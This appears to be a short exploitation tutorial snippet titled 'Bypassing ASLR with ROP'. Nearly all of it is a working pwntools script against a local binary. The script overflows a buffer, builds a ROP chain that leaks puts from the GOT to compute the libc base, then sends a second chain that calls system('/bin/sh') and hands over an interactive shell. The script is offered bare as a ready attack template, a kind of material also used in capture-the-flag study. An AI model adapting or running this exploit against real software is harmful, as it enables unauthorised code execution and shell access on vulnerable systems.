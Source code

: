 ## Bypassing ASLR with ROP

### Information Leak + ROP

```python
#!/usr/bin/env python3
from pwn import *

def aslr_bypass_rop():
    p = process('./target')
    elf = ELF('./target')
    
    # Stage 1: Leak libc address
    pop_rdi = 0x400743
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    main_addr = elf.symbols['main']
    
    # ROP chain to leak puts address
    leak_chain = [
        pop_rdi,
        puts_got,     # puts(puts@got)
        puts_plt,
        main_addr     # Return to main for second exploit
    ]
    
    payload1 = b'A' * 72 + b''.join(p64(addr) for addr in leak_chain)
    p.sendline(payload1)
    
    # Parse leaked address
    leaked_puts = u64(p.recvline()[:6].ljust(8, b'\x00'))
    log.info(f"Leaked puts: 0x{leaked_puts:x}")
    
    # Calculate libc base
    libc = ELF('./libc.so.6')
    libc.address = leaked_puts - libc.symbols['puts']
    log.info(f"Libc base: 0x{libc.address:x}")
    
    # Stage 2: ROP to system with known addresses
    system_addr = libc.symbols['system']
    bin_sh_addr = next(libc.search(b'/bin/sh'))
    
    exploit_chain = [
        pop_rdi,
        bin_sh_addr,
        system_addr
    ]
    
    payload2 = b'A' * 72 + b''.join(p64(addr) for addr in exploit_chain)
    p.sendline(payload2)
    p.interactive()
```
